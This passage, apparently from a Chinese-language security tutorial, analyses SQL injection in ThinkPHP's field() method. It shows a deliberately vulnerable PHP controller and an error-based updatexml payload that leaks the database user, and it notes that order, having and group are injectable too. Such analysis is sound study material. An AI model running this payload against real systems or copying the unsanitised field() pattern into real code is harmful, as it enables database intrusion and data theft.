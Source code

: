


#### 分析


还是在user那打下断点，进入到_parseOptions，关键点。
![image.png](https://sqlmap.wiki/images/image%20(17).png)


![image.png](https://sqlmap.wiki/images/image%20(18).png)




所以总结，如果以数组进行传参，会进入到_parsetype方法进行数据类型强转，也就不存在注入了。


### field函数变量可控导致的注入



#### field()


field函数的功能是操作或返回字段。例如field('name'),转换成sql语句就是select name from xxx




这个其实没啥好说的，因为field底层语句就是直接进行拼接的。所以只要变量可控，不管是以字符串还是数组传参，都会导致注入


#### 示例代码


```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
   public function fiesql()
    {
        $id=I('get.id');
        $user=M('user')->field($id)->select();
        var_dump($user);
    }
}
```




#### payload


```php
id from user where 1=updatexml(1,concat(0x7e,user()),1)#
```

#### 总结
不止filed()，order,having,comment,group可控，就可注入
